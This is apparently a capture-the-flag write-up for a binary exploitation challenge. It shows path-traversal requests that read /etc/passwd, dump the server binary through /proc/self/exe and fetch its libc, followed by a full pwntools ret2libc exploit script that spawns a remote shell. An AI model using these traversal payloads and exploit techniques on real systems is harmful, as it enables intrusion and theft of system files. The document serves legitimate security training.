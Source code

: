 # CyberBlitz2023

I played with my team GreenHat and came in 1st place in this year’s SIT N0H4Ts Capture the Flag competition, CyberBlitz. 

Final Scoreboard

![scoreboard](images/scoreboard.png)

During the CTF, I solved the following challenges for my team.

![solves](images/solves.png)

---

## **OSCP is useless here (300 points)**

> Doesnt matter if you have OSCP or not, lets see you get the flag here.
> 
> 
> Connect at [http://34.126.68.54:20001/](http://34.126.68.54:20001/)
> 
> Author : Platy
> 

Category: Binary Exploitation

LFI on the webserver allowed us to dump the binary and associated libc file, which was then used to do a ret2libc attack to leak functions from the Global Offset Table (GOT) to calculate the LIBC offset, then execute system. 

Landing page, we get a site with no other useful information except that it is hosted on Debian Buster and for a Server header: `Http Server written in C`

![landingpage](images/landingpage.png)

![burpsuite](images/burpsuite.png)

Well.. It is binary exploitation, but what we have here is a webserver?

## LFI

After some directory enumeration, we find that the only page is index.html, which loads the same page which we saw in the landing page. Any invalid pages would be redirected to a `404 Not Found`.

We can look for other vulnerabilities such as LFI. When testing for LFI, we can get the contents of /etc/passwd (as this is a debian box) using `/../../../../../../etc/passwd`

![burpsuite2](images/burpsuite2.png)

## Leaking the binary

As the HTTP header suggests the application is a C program hosting a webserver, we can try to dump the binary. Looking into `/proc/self/exe` we could possibly dump the binary file as it would access the executable that is being run by the current process. This is also a common LFI enumeration endpoint: [https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/](https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/)

> `/proc/self/`
> 
> 
> When a process accesses this magic symbolic link, it resolves to the process's own /proc/pid directory.
> [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)
> 

We can verify this with burp and it returns what seems to be the contents of the binary.

![burpsuite3](images/burpsuite3.png)

To save it to our system, we can use curl with the `--path-as-is` parameter, as it would automatically shorten the `/../../` for us if run without.

```jsx
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../proc/self/exe --path-as-is > binary                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17160    0 17160    0     0   165k      0 --:--:-- --:--:-- --:--:--  165k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file binary
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8fcbb0d24464a2d0db075447f04a763182b9d2db, not stripped
```

Checksec tells us it is a 64 bit executable with NX enabled and no other protections. As NX is enabled we won’t be able to execute code from the stack.

```jsx
┌──(kali㉿kali)-[~/Desktop/CTF/CyberBlitz2023]
└─$ checksec binary                                                                     
[*] '/home/kali/Desktop/CTF/CyberBlitz2023/binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Analyzing the binary, we will find that there is a buffer overflow vulnerability which can be triggered with `"GET " + payload` as input.  Our attack path would be as follows:

1. Get the LIBC used by the binary
2. ROP to leak a function from the GOT on the remote server to calculate LIBC offset
3. ROP again and execute system 

## Getting LIBC: LFI on libc

We can look into the filesystem to get the libc. As implied from the text in the site landing page, we are looking at a Debian box. For Debian based distros, most system libraries can be found from `/lib/x86_64-linux-gnu/`. We can also use ldd:

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ ldd binary 
        linux-vdso.so.1 (0x00007ffc788dd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f397305a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f3973262000)
```

With curl, we would be able to get the libc from the remote server.

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../lib/x86_64-linux-gnu/libc.so.6 --path-as-is > libc.so                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1777k    0 1777k    0     0   116k      0 --:--:--  0:00:15 --:--:--  117k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a65a82147cd98619525049d4c29cc45f88d1fb00, for GNU/Linux 3.2.0, stripped
```

## ROP

Now that we have the correct libc, we can start constructing our payloads to exploit the binary, which our end goal is to call system and spawn us a shell.

The following would leak the address of the puts in the GOT, which we can then use to calculate the libc offset (to defeat ASLR)

```python
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)
```

This next part would then call system() and pass in ‘/bin/sh’ which we can get from libc.

```python
libc_offset = puts_address - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])
p.sendline(exploit_payload)
```

With the pieces, the final solver would be as follows:

```jsx
from pwn import *

libc = ELF("libc.so")
p = remote('34.126.68.54',20001)
#p = process("binary")
elf = ELF("binary")

# ROP gadgets
rop = ROP(elf)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

# leak puts
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)

p.recvline()
p.recvline()
p.recvline()

# puts
leaked_puts = p.recvline()[:-1] 
puts_address = u64(leaked_puts + b'\x00' * (8 - len(leaked_puts)))
print(f'Leaked puts address: {hex(puts_address)}')

# libc offset
libc_offset = puts_address - libc.symbols['puts']
print(f'Libc offset: {hex(libc_offset)}')

# payload to call system
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])

p.sendline(exploit_payload)

p.recvline()
p.recvline()
p.recvline()

p.interactive()
```

Which after running on the remote server, we get a shell and the flag.

![flag](images/flag.png)

```python
CyberBlitz{have_you_perhaps_considered_trying_harder_than_you_can_believe}
```
